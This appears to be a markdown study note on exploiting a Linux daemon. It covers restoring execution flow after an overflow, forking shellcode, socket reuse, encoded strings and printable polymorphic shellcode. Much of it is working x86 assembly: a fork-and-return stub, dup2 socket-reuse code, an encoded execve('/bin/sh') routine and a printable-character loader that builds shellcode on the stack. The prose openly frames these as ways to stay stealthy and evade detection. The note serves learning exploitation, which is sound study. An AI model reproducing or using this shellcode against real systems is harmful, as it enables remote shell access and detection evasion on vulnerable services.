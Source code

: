 ## x600
### Key concepts/definitions to know.
- **Daemon** - a daemon is a process that runs in the background, detached from the controlling terminal. 
- **Signals** - Signals are how processed communicate to one another in linux, when a program recieved a signal its execution flow is halted to call a signal handler.
  - The ```kill``` command can be used to send signals to a running process.
  - A program's behavior when a signal is recieved can be changed with the ```signal``` function ex: ```signal(SIGTERM, made_up_function)```
  - ```strace``` can be used to inspect the systemcalls of an executable. 
    - more importantly, it can be attached to a running process with ```j``` and you can filter calls with ```f```
  - When trying to find byte values for function/system call arguments it may be easier to simply put them in a C file and dissaseemble them and check out the values passed there. 

### Repairing Broken Execution Flow 
If you exploit a system daemon more times than not, you will disturb execution flow. If this happens, there are a couple things you need to do to ensure that execution flow is restored to normal.
  1. **Restore the base pointer**- Because you want the stack to return to the state it was when you decided to break it you need to ensure that you restore its state. To do so, you need to check out he function prologue of the function you overtook and get the offset of ```ESP``` from ```EBP``` and recreate this activity. Your code will look something like.
      ```
      lea ebp, [esp+0x69]   ; 0x69 is the original offset of ebp in the calling function(main)
      ```
      *Note- set breakpoints before and after your shellcode to observe these changes*
      *Note2- The code wil do the math to fix ESP itself, ebp is your problem*
  2. **Restore the return address** - After you fix the stack you broke, you have to point the program in the right direction before it can resume.  
      ```
      push 0xdeadbeef        ; 0xdeadbeef is the address of the next call after the function
      ret                    ; Tells the program to return to the address off the stack. 
      ```
### Using a child process
Because you want to be sneaky and ensure that the program you hacked doesnt break, you want to move your shellcode into a new process, this is done simply with the concept of forking.
<details> <summary>fork(2) man page</summary>

  ```
  FORK(2)                 Linux Programmer's Manual                FORK(2)

  NAME         

        fork - create a child process

  SYNOPSIS         

        #include <unistd.h>

        pid_t fork(void);

  DESCRIPTION         

        fork() creates a new process by duplicating the calling process.
        The new process is referred to as the child process.  The calling
        process is referred to as the parent process.

        The child process and the parent process run in separate memory
        spaces.  At the time of fork() both memory spaces have the same
        content.  Memory writes, file mappings (mmap(2)), and unmappings
        (munmap(2)) performed by one of the processes do not affect the
        other.

        The child process is an exact duplicate of the parent process
        except for the following points:

        *  The child has its own unique process ID, and this PID does not
            match the ID of any existing process group (setpgid(2)) or
            session.

        *  The child's parent process ID is the same as the parent's
            process ID.
  ```
</details>

It is important to remember that the fork process returns 0 for the child process and the new PID to the parent process. So we need to send the execution of out shellcode into the new process and use the concept above to send the parent back to normal. The code will look something like. 
```
BITS 32

   push BYTE 0x02    ; Fork is syscall #2
   pop eax
   int 0x80          ; After the fork, in child process eax == 0.
   test eax, eax
   jz child_process  ; In child process spawns a shell.

; In the parent process, restore tinywebd.
   lea ebp, [esp+0x68]  ; Restore EBP.
   push 0x08048fb7      ; Return address.
   ret                  ; Return

child_process:
; s = socket(2, 1, 0)
  push BYTE 0x66    ; Socketcall is syscall #102 (0x66)
  pop eax
  cdq               ; Zero out edx for use as a null DWORD later.
  xor ebx, ebx      ; ebx is the type of socketcall.
  inc ebx           ; 1 = SYS_SOCKET = socket()
  push edx          ; Build arg array: { protocol = 0,
  push BYTE 0x1     ;   (in reverse)     SOCK_STREAM = 1,
  push BYTE 0x2     ;                    AF_INET = 2 }
  mov ecx, esp      ; ecx = ptr to argument array
  int 0x80          ; After syscall, eax has socket file descriptor.
```
*Note: Since fork returns a 0 in eax, upon success you can use the ```jz``` instruction to jump the new code into a child process*

### Socket Reuse
In the event you want to be even more sneaky and ride your "legitimate" connection for your resulting shellcode to do so, you simply grab the connection's file descriptor for your shell code and plug it into your ```dup2``` call. Because memory is dynamic it would be better to use a relative address for the file descriptor such as its relation to the stack. After sucess, your shellcode should look like this. 
```
child_process:
      ; Re-use existing socket.
   lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
   mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
   push BYTE 0x02
   pop ecx          ; ecx starts at 2.
   xor eax, eax
   xor edx, edx
dup_loop:
   mov BYTE al, 0x3F ; dup2  syscall #63
   int 0x80          ; dup2(c, 0)
   dec ecx           ; Count down to 0.
   jns dup_loop      ; If the sign flag is not set, ecx is not negative.
```
This method only works if your exploit buffer includes a directive to redirect standard in/out to the target such as using ```cat -``` and piping it to netcat. In this situation, there is no need for a seperate listener since you ride the same connection. 

### String encoding
While this sounds fancy and all, this can be as simple as a ceaser cypher style substitution such as adding 6 bytes to all the values and then removing them afterwards. To do so your code can look a little like this. 

<details>

  ```
    child_process:
        ; Re-use existing socket.
      lea edx, [esp+0x5c]  ; Put the address of new_sockfd in edx.
      mov ebx, [edx]       ; Put the value of new_sockfd in ebx.
      push BYTE 0x02
      pop ecx          ; ecx starts at 2.
      xor eax, eax
    dup_loop:
      mov BYTE al, 0x3F ; dup2  syscall #63
      int 0x80          ; dup2(c, 0)
      dec ecx           ; Count down to 0.
      jns dup_loop      ; If the sign flag is not set, ecx is not negative

    ; execve(const char *filename, char *const argv [], char *const envp[])
      mov BYTE al, 11   ; execve  syscall #11
      push 0x056d7834   ; push "/sh\x00" encoded +5 to the stack.
      push 0x736e6734   ; push "/bin" encoded +5 to the stack.
      mov ebx, esp      ; Put the address of encoded "/bin/sh" into ebx.

    int3 ; Breakpoint before decoding (REMOVE WHEN NOT DEBUGGING)

      push BYTE 0x8     ; Need to decode 8 bytes
      pop edx
    decode_loop:
      sub BYTE [ebx+edx], 0x5
      dec edx
      jns decode_loop

    int3  ; Breakpoint after decoding (REMOVE WHEN NOT DEBUGGING)

      xor edx, edx
      push edx          ; push 32-bit null terminator to stack.
      mov edx, esp      ; This is an empty array for envp.
      push ebx          ; push string addr to stack above null terminator.
      mov ecx, esp      ; This is the argv array with string ptr.
      int 0x80          ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
  ```
</details>

Another thing we can do to hide is to get rid of our NOP sled and replace it with other special characters that can do and undo actions like. 

<details>
  <table>
    <thead>
      <tr>
        <th>Instruction</th>
        <th>Hex</th>
        <th>ASCII</th>
      </tr>
    </thead>
    <tbody>
      <tr>
        <td>inc eax</td>
        <td>0x40</td>
        <td>@</td>
      </tr>
      <tr>
        <td>inc ebx</td>
        <td>0x43</td>
        <td>C</td>
      </tr>
      <tr>
        <td>inc ecx</td>
        <td>0x41</td>
        <td>A</td>
      </tr>
      <tr>
        <td>inc ecx</td>
        <td>0x42</td>
        <td>B</td>
      </tr>
      <tr>
        <td>dec eax</td>
        <td>0x48</td>
        <td>H</td>
      </tr>
      <tr>
        <td>dec ebx</td>
        <td>0x4B</td>
        <td>K</td>
      </tr>
      <tr>
        <td>dec ecx</td>
        <td>0x49</td>
        <td>I</td>
      </tr>
      <tr>
        <td>dec edx</td>
        <td>0x4A</td>
        <td>J</td>
      </tr>
    </tbody>
  </table>
</details>

### Polymorphic Shellcode
As detection systems continue to get stronger, continually clever methods of sneaking shell-code must be devised. One of the biggest roadblocks in printable character checks. If you can create shellcode that is completely printable, then you can paste these instructions into input buffers opening the door for even more opportunities. 

#### Zeroing out registers
Since the XOR instruction is not printable we have to find a new way to zero characters. The simplest way of doing so is with a bitwise AND operation. 
  - **Logical ANDS** - since the ```and eax``` bitwise operation translates to ```%``` it can be used in conjunction with numbers that translate to printable chacacters to perform logic operations on numbers. Since AND requires both Bytes to be present , two AND operations againt s register with inverse values should zero it out.
    <details>
    <summary>Example</summary>

    ```
    and eax, 0x454e4f4a  ; Assembles into %JONE
    and eax, 0x3a313035  ; Assembles into %501:
    ------------------------------------  --------------- 
        Binary                                Hexadecimal
        1000101010011100100111101001010       0x454e4f4a
    AND 0111010001100010011000000110101   AND 0x3a313035
    ------------------------------------  --------------- 
        0000000000000000000000000000000       0x00000000
    ```
#### Loader Code
When youre in a situation in which you are constrained to printable characters, a loader can be a helpful method of controling execution flow. The loader leverages the stack's nature to grow down into lower memory by first pushing the stack pointer to an offset past EIP (into higher addresses) and growing an increasingly larger buffer until the stack can be flowed into after the loader code that specified this behavior. This behavior is illustrated below.
![Loader](https://learning.oreilly.com/api/v2/epubs/urn:orm:book:9781593271442/files/httpatomoreillycomsourcenostarchimages254398.png.jpg)

1. The shellcode must be moved to a higher address, and since only the ```sub```traction instruction is printable with EAX, we take advantage of the fact that subtracting large values is effectively addition for this case so we have to find large printable numbers. Since the ```sub esp``` instruction is not printable, we have to do this in ```eax``` and then move the result into ```esp``` via the stack since ```push eax``` and ```pop esp``` are both printable. If this doesnt make sense, this is what it looks like in practice.  
    ```
    push esp             ; Assembles into T
    pop eax              ; Assembles into X

    sub eax, 0x39393333  ; Assembles into -3399
    sub eax, 0x72727550  ; Assembles into -Purr
    sub eax, 0x54545421  ; Assembles into -!TTT

    push eax             ; Assembles into P
    pop esp              ; Assembles into \
    ```
    *Note: this whole sequence translates to ```TX-3399-Purr-!TTT-P\```*

2. From here we have to actually build the shellcode. Since we are doing this on the stack we have to follow the FILO convention of the stack and build this backwards. so the first thing pushed to the stack is the last 4 bytes of shellcode. THis is done 4 bytes at a time until the entirety of the shellcode is on the stack. Each 4 bytes is pushed to the stand and then has subtraction with printable characters done on it to create the next value to be pushed to the stack. The resulting code looks like this
    ```
    and eax,0x454e4f4a
    and eax,0x3a313035      ; Zero out EAX.

    sub eax,0x346d6d25      ; Subtract printable values 
    sub eax,0x256d6d25      ;   to make EAX = 0x80cde189.
    sub eax,0x2557442d      ;   (last 4 bytes from shellcode.bin)
    push eax                ; Push these bytes to stack at ESP.
    sub eax,0x59316659      ; Subtract more printable values
    sub eax,0x59667766      ;  to make EAX = 0x53e28951.
    sub eax,0x7a537a79      ;  (next 4 bytes of shellcode from the end)

    push eax
    sub eax,0x25696969
    sub eax,0x25786b5a
    sub eax,0x25774625
    push eax                ; EAX = 0xe3896e69
    sub eax,0x366e5858
    sub eax,0x25773939
    sub eax,0x25747470
    push eax                ; EAX = 0x622f6868
    ---This keeps repeating for the whole shellcode---
    ```
    *Note: *
3. The rest of the space between the shellcode and EIP is padded with NOP instructions which are pushed to the stack as well.
    ```
    sub eax,0x41704170
    sub eax,0x2d772d4e
    sub eax,0x32483242
    push eax                ; EAX = 0x90909090
    push eax
    push eax                ; Build a NOP sled.
    ---Do this a bunch---
    ```

    
